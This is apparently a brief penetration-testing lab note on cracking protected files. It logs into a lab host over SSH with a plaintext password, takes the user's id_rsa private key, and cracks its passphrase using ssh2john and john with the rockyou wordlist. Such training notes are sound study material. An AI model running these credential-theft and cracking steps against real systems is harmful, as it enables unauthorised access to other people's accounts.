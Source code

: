 <figure><img src=".gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

## Cracking Files

### Protected Files

`ssh kira@10.129.16.180`

PW: **L0vey0u1!**

<figure><img src=".gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

* id\_rsa path: /home/kira/.ssh/id\_rsa
* CRACK the RSA
  * copy id\_rsa to local machine
  * create hash from RSA priv key...
    * `/usr/share/john/ssh2john.py id_rsa > ssh.hash`
  * run john
    * &#x20;`john --wordlist=/home/zihuatanejo/Desktop/rockyou.txt ssh.hash`
